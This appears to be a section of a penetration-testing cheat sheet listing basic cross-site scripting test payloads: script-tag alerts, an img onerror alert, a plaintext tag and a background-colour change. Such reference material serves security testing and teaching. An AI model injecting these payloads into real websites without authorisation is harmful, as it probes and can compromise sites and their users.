 <a id="19-cross-site-scripting-xss"></a>
### 19. Cross-Site Scripting (XSS)

#### Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
